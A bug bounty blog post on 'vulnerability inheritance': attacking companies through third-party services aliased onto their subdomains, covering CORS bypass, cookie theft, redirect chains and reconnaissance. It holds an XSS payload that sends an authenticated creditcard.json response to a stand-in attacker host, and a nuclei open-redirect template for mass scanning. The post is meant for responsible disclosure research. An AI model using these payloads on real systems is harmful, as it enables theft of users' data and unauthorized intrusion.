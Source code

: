 ```yaml
---
layout: single
title: Exploitation through vulnerability inheritance - Attacking companies and scoring bounties through 3rd party integrations
date: 2021-02-15
classes: wide
header:
  teaser: /images/3rdparty_teaser.png
tags:

  -BugBounty
--- 
```


**Exploitation through vulnerability inheritance - Attacking companies and scoring bounties through 3rd party integrations**

![preview](/images/3rdparty_teaser.png)

## Agenda

During the last couple of month engaging with bug bounties on companies who hold responsible disclosure policy, I have encountered what might be called as some sort of routine, which helped me scoring bounties on companies regardless of their size or resources.

This is due to what I will refer on this blog post as "Vulnerability Inheritance"

In this blog I'll cover the following:

![preview](/images/agenda.png)


### General

In today’s world, software companies are growing rapidly and so the need for new designs and features to implement ontop of the company current niche, which draws large portion of the developers attention.

Companies will opt to “adopt” 3rd party services to achieve certain functionality goals, which would give them a "cheap" and time rewarding solution instead of investing manpower on maintaining and devloping certain "sideways" features which are already being maintaned and constantly developed by big 3rd party vendors.

With this approach has it's advantages, it do come out with a security price which needs to be considered and handeld correctly by the customers.

The 2 main ways in which we can integrate 3rd party services within our company domains are the following:

![2ways](/images/2ways.png)

The main area which I will cover is within the CNAME and A records integrations, for <script> and <iframe> integrations, there are several vulnerabilities which can arise and I'd suggest watching our Chief Architect at enso.security talk about postMessage exploitations which we had given earlier this year.

**Adding link to posta slides**

**Understanding CNAMES and A records**

CNAME records can be used to alias one name to another. CNAME stands for Canonical Name.
A common example is when you have both example.com and www.example.com pointing to the same application and hosted by the same server. 
To avoid maintaining two different records, it’s common to create:
* An A record for example.com pointing to the server IP address
* A CNAME record for www.example.com pointing to example.com

As a result, example.com points to the server IP address, and www.example.com points to the same address via example.com. If the IP address changes, you only need to update it in one place: just edit the A record for example.com, and www.example.com automatically inherits the changes.

**Understanding CNAMES and A records DNS flow**

![dns_cname](/images/cname_dns.png)

By observing the DNS flow above, we could already start to glimpse the point why security vulnerabilities are being arised from such actions.

There are 2 ways to implement 3rd party integrations through DNS records:

* Assigning a CNAME record from a subdomain to the 3rd party service, by doing so we "alias" the contents from the 3rd party website to serve on our subdomain.

* Assigning A record to an IP address which will run the vendor's service with slight modificatitions.

![flow_nagli](/images/flow.png)

After understanding the basics, we can dive deeper into the threat and attack models section.

### Threat and attack models

![threat](/images/threat.png)

As we approach the threats and attack models phase, we need to understand that the main attack vectors we will look for are **Client Side Vulnerabilities**, this should make sense by now as we are attacking the company subdomain which is being served as an alias to third party service, in other words:

* Achieveing RCE on the target would actually mean that we have remote code execution on the vendor's server
* Achieving SSRF on the target would actually mean that we have Server Side Request Forgery from the vendor's IP
* Achieveing XXE on the target would actually mean that we have XML External Entity attack on the vendor's server

Those attacks are severe and can affect the subdomain which we are targeting which in other words is the 3rd party vendor, but as for the impact for our assessment we need to show the impcat for our client or target, and those will be achieveable by without focusing on the Server Side Vulnerabilties.

I believe that Subdomain takeovers and Dangling DNS records are wide known and understood with the community, there are bunch of great tutorials and explanations on these attacks and it's not the main spotlight of the blog, yet it has to be mentioned because it's common to stumble upon these.

![tko](/images/tko.png)

![dangling](/images/dangling.png)

The referance which should always be kept aside for these issues is [Can I takeover the Subdomain?](https://github.com/EdOverflow/can-i-take-over-xyz), which holds information about wether or not we can takeover a subdomain given it's vendor name.


Now, let's dive into the main part of the talk.

Client side vulnerabilities such as Cross Site Scripting and Open Redirects are often considered the most common bugs to be found by bug bounty hunters, as such many defence measures are being integrated and considered by companies todays such as implementing CSP (Content-Security-Policy), Deploying a WAF (Web Application Firewall), strict regex controls and sanitizing user input on all fields at all costs (almost an impossible task).

These solutions are good, although there are many WAF and CSP Bypasses which are being discovered from time to time, it will mostly do good job with protecting your companies domain from the straight forward attacks.

**But**,
When we integrate 3rd party service to our domain by pointing to it with a CNAME or A record, we are serving an alias of the vendors website, and the defense measures which we have taken throught the entire development process are no longer effective.

Upon integration we are being 100% dependent on the vendors security policy regarding vulnerabillities.

And this is where the **"Vulnerability Inheritance"** part comes to play, whenever we decide to integrate a new service, we will inherit it's entire security flaws to be served under our domain.

Let's take a quick look on the matter:

Assume we have found Stored XSS on a third party vendor, let's say on .welearn.com, and the company which we are targeting - target.com has a subdomain named study.target.com which points to target.welearn.com, target.com is well protected with strict CSP in place and up to date WAF.

Because study.target.com is a CNAME, it won't have any of these protections inplace, which could have blocked the XSS we have found on the 3rd party vendor.

Now, we will navigate to the subdomain and execute the XSS, as we could have anticipated it's affecting website as well as the vendors website, and the document.domain of the execution is being changed accordingly. 

![xss](/images/xss.png)

That's nice, so we found a vulnerability on a subdomain of our target.com company, and we have done so without tackling any of the defense in depth security measures being implemented on their domains. it's already a valid vulnerability if the company has wildcard domain inscope for assessment.

As I have encountered from time to time with my assessments, often the targeted companies won't realize the impact for such vulnerabilities, and they can issue a generic response as:

"Nice find, although the subdomain you have targeted is affecting 3rd party service which isn't under our control, and there is no impact by doing so."

The vulnerability itself indeed cannot be resolved by the company which we target, and they best mitigation considering the severity is to take down the website for maintanence until the vendor will fix it's flows.

Regarding the impact, it's subjective to the companies design and implementations, and it could be used as a chain to more severer actions.

**Bypassing CORS protections**

To those who are unfamilliar with the **Cross Origin Resource Sharing** mechanism:

Cross-Origin Resource Sharing (CORS) is an HTTP-header based mechanism that allows a server to indicate any other origins (domain, scheme, or port) than its own from which a browser should permit loading of resources.

Upon examining the main functions of our target website, if we come across the following set of headers and there is sensitive data being returned on the page, we defintly should stop and investigate what happens:

```javascript
Access-Control-Allow-Origin: https://galnagli.com
Access-Control-Allow-Credentials: true
```

When responding to a credentialed request, the server must specify an origin in the value of the Access-Control-Allow-Origin header, instead of specifying the `*` wildcard.

We want to make a request with the Access-Control-Allow-Credentials: true header, as it would allow fetching data with the user credentials attached (as authenticated personal).

Targets who set their CORS policy could have it assigned as "Wildcard" whenever dealing with requests which doesn't require authentication.
And as defense mechanism they would allow specifing the origin on authenticated requests only to be scope for the targets subdomains, such as 

```javascript
*.galnagli.com
```

It means that if we want to initiate a request from a subdomain of our target, we will specify it's name on the Allow-Origin header, which will look like the following:

```javascript
Access-Control-Allow-Origin: https://study.galnagli.com
Access-Control-Allow-Credentials: true
```

Now, as we have discovered Cross Site Scripting vulnerability on that subdomain, and although it occurres because of the 3rd party vendor misconfigurations, the origin of execution is being tied to our subdomain, which is inscope of making credential requests to the main domain as per our target configuration.

We can use our XSS to fetch sensitive information which is being stored on the parent domain by issuing a script similar to:

```javascript
<script>
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://galnagli.com/creditcard.json',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//atttacker.net/log?key='+this.responseText; 
};
</script>
```

Storing this as the Cross Site Scripting payload will send to our attacker controlled server the creditcard.json authenticated response for each visitor who visits the affected subdomain and executes the script.


**Cookies exfiltration**

When companies are setting up cookies on their main websites, they tend to configure them with domain attribute, with makes them accessible and stored on the respective subdomains as well.

As per MDN:
```
Domain attribute
The Domain attribute specifies which hosts are allowed to receive the cookie. If unspecified, it defaults to the same host that set the cookie, excluding subdomains. If Domain is specified, then subdomains are always included. Therefore, specifying Domain is less restrictive than omitting it. However, it can be helpful when subdomains need to share information about a user.

For example, if Domain=mozilla.org is set, then cookies are available on subdomains like developer.mozilla.org.
```

It means that if we manage to find XSS vulnerability on our subdomain, we can exfiltrate the cookies which are being set on the parent domain, only if they are not protected by HTTPOnly flags.

We can use the cookies attached to issue requests from the victim perspective (such as CSRF attacks) regardless of the cookies being set to HTTPOnly.

![cookie](/images/cookie.png)

**Business Logic Errors**

Similar to the impact of subdomain takeover, instead of stealing the domain and to show a generic alert popup from that subdomain, we can use that subdomain to demonstrate legitimate service claiming to be on behalf of the original domain, while its actually being managed by the attacker.

Let's take to an example if we managed to takeover a shopify domain of the target domain, served on shop.target.com:

![business](/images/business.png)

**Open Redirect as a chain**

Assuming we have found open redirect on our vulnerable 3rd party vendor, which affects our subdomain shop.galnagli.com.
This could be used as a chain to more severe attacks, some companies would accept the open redirect as P4, but this should be considered last resort after trying to achieve greater affect and impact through different and more severe vulnerabilities such as Account Takeover or SSRF Bypasses.

**Account Takeover**

Let's take a look at the following example:

![redirectko](/images/redirect_tko.png)

While this issue looks straight forward like regular open redirect to account takeover, it's not that case so often.
Because we have another location to redirect through, we will often encounter a redirection chain which won't carry the authentication code throughout the entire process, we need to have certain redirection which fetches and issues the call through the DOM of certain page, and only redirects to the final domain from the original initiator

```javascript
https://galnagli.com - > https://shop.galnagli.com -> https://sadf.burpcollaborator.com - Most likely won't carry the auth code.
https://galnagli.com - > **middleman redirection processing page** -> https://sadf.burpcollaborator.com - Most likely will work.
```


**SSRF Bypass**

Similar to the previous vulnerable scenario, we can achieve SSRF by bypassing allowed whitelisted wildcard urls at certain scenarios.

![ssrf](/images/ssrf.png)

### Reconnaissance

The Reconnaissance part should be divded to 2 main parts:

![recon](/images/2recon.png)

Our first task is to find a potenial target to test for possible vulnerabilities.

I prefer to scan the our target first and look for 3rd parties services which are integrated already in their flow, although a researcher could opt to find web 0-days on 3rd party vendor services before looking for any target, I'm not sure it hold the ethical phase if the vendor won't operate any responsible disclosure policy (which is really bad for vendors to not have one of those)

And you might find a vulnerability which won't affect any target who offers bug bounties or CVE to award your effort, so going through our target assets and expanding further should be the way to go.

We are mostly interested to find the CNAME records and potenial A records with titles who indicate the usage of 3rd party services.

There are many unix tools which could help us to determine the if certain host (https://www.example.com) has CNAME pointer to certain website, the most simple way to check for those would to run a dig scan

```javascript
dig target.com CNAME
```
which should return in response similar answer to:

```javascript
shop.galnagli.com.     300     IN      CNAME   galnagli.myshopify.com
```

Although, there are better ways and faster tools which would let us run over large portion of domains and return on the same iteration the title of the webpage, and it's CNAME.
using the opensource httpx tool by ProjectDiscovery we can use the following script to scan a list of subdomains and extract their CNAMES records and titles, given a list of subdomains with their respective status code.

```javascript
cat subdomains.txt | httpx -cname -title -status-code > rawdata.txt
```

```javascript
https://shop.galnagli.com [404] [This shopping website is unclaimed] [galnagli.myshop.com]
https://events.galnagli.com [200] [Welcome to eventstoday platform] [galnagli.eventstoday.com]
```

So we have determined that our subdomain has CNAME pointer to 3rd party vendor, assuming our target accepts wildcard reports and going over the entire blog until this point, we can explore the for vulnerabilities on the vendors website and apply those on the in-scope subdomain.

Even if events.galnagli.com didn't have a CNAME record to eventstoday, and was hosting it on a IP address with A record, the title of the webpage would exfiltrate the fact that it's a 3rd party service.

Apart from automation, we can never takeaway from manually inspecting websites. 
we could usually encounter via the sourcecode image locations or "signatures" on the page the fact that we are being served a 3rd party vendors code.

So, we found a target, and we managed to find vulnerabilities on it such as XSS or Open-Redirect, that's great and should count as a valid report.

However, the potenial is way bigger, now we have a "0 day" on web application service, and we should scrape the internet at scale to find other big vendors who uses the same service to host content on their domains.

![fingerprint](/images/fingerprint.png)


**Google Dorks**

Common google dorking patterns which can aid us in finding more potenial vulnerable targets will be utilized by the "site", "inurl" and "intext" Google dorks

![dorks](/images/dorks.png)

**Customers page**

Often, one of the most benefiting and simple solutions expanding our vulnerable targets batch is to navigate to the 3rd party vendors, which usually contains a Customer or About us page with data about new targets to explore.

Sometimes you could get indication of the number of vulnerable assets, as they vendor might state "Trusted by 100K Companies around the world", that's surely good news!

**Reverse CNAME lookup**

One of the most accurate and to the point methods to find vulnerable targets is by utilizing Reverse CNAME lookups which is being offered by several online services.

This solution might not be free, those are services like Shodan, Censys or Spyse who scrape the entire internet assets data and store them into their databases.
By doing so they allow us to filter our searches to find the CNAME pointers values of assets, by looking up for the 3rd party vendor CNAME Scheme.

Personally I have used spyse's service, and it worked just fine.

![dorks](/images/reverse_cname.png)

**Path Fingerprinting**

Sometimes, we find our vulnerability on a custom path which seems pretty unique and it could be used as an identifier for potenial vulnerability.
We have great open source tools such as meg by tomnomnom or Nuclei by ProjectDiscovery which can help us either create a template or query the request with the certain path

Example of creating a template with nuclei .yaml templates:

```javascript
id: welearn-redirect

info:
  name: Open Redirect vulnerability on welearn websites
  author: Gal Nagli
  severity: Medium
  tags: redirect


requests:
  - method: GET

    path:
      - "{{BaseURL}}/api/welearn/v2/exitnotice?goto=http://evil.com"

    matchers-condition: and
    matchers:
      - type: status
        status:
          - 302
      - type: word
        words:
          - "<a href=\"http://evil.com>""
        condition: or
        part: body
 ```

What this template will check is giving a request to our URL with the specific path supplied, is the response returns 302 status code with the words ```<a href=https://evil.com>``` in it? if so - pop an alert.
  
You save your file as welearn-redirect.yaml, add it to your nuclei templates and can run it on millions of subdomains in no-time.

![path](/images/path.png)


### Practical exploitations

Unfortunately, at this point of time I don't have permission to disclose the full details of my findings as 6 month haven't gone by yet, however among all my findings had affected companies like: Google, Snapchat, Twitter, HackerOne, BugCrowd, Amazon, Facebook and many more.

also, hundred of thousands websites on total affected from the "0 days" on these 3rd party vendors (which some of those are not fixed yet)

** Findings **
- [X] Subdomain Takeovers
- [X] Stored XSS on 3rd party email templates
- [X] Reflected XSS on events platform
- [X] Open Redirect on 2 Learning platforms
- [X] Client Side Template Injection to Stored XSS on customer success vendor
- [X] Account takeover on Survey platform

**Proof of concepts**

![pocs](/images/pocs.png)

### Takeaways

![conclusion](/images/conclusion.png)

## END

![thanks](/images/thanks.png)
